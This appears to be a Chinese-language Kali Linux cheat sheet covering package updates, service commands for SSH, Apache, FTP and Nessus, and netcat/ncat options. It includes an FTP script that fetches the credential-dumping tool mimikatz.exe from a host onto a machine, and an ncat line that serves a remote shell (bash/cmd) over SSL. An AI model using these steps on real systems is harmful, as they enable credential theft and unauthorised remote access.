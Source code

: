 ## 更新升级

- apt-get update (更新软件包列表库)
- apt-get upgrade (更新安装的软件包)
- apt-get dist-upgrade (根据依赖关系更新)
- apt-get clean (清除缓存索引)
- reboot (重新启动)

## Kali 网络问题

- service network-manager stop
- rm /var/lib/NetworkManager/NetworkManager.state
- service network-manager start

## SSH

- service ssh start (开启 ssh 服务)
- service ssh restart (重启 ssh 服务)
- service ssh status (查看 ssh 状态)

## Apache

- service apache2 start (开启 Apache 服务)
- service apache2 restart (重启 Apache 服务)
- service apache2 status (查看 Apache 状态)
- 默认目录 /var/www/html
- 目录配置 /etc/apache2/sites-available/000-default.conf

## ftp

- service vsftpd start (开启 ftp 服务)
- service vsftpd restart (重启 ftp 服务)
- service vsftpd status (查看 ftp 状态)
- 文件目录 /home/ftp

```
echo open 192.168.253.130 21>ftp.txt
echo ftp>>ftp.txt
echo 123456>>ftp.txt
echo bin>>ftp.txt
echo get mimikatz.exe>>ftp.txt
echo bye>>ftp.txt
----------------
ftp -s:ftp.txt
```

## nc

- -h 显示帮助选项
- -l 绑定并监听传入连接
- -p 指定要使用的端口
- -c 通过/bin/sh 执行给定的命令
- -q 执行完毕 X 秒后退出
- -n 数字 ip,不通过 DNS 解析
- -v 显示详细信息
- -u 使用 UDP 模式
- -z 使用扫描模式

```
A：nc -lp 端口 | 解密方式 > 文件
B：加密方式 < a.mp4 | nc -nv IP地址 端口 -q 时间
```

## ncat

- --allow 只允许给定的主机连接到 Ncat
- --ssl 使用 SSL 连接或监听

```
A：ncat -c bash/cmd --allow IP 地址 -vnl 端口 --ssl
B：ncat -nv IP 地址 端口 --ssl
```

## Nessus

- service nessusd start (启动 Nessus)
- service nessusd status (查看 Nessus 状态)
- https://192.168.253.130:8834/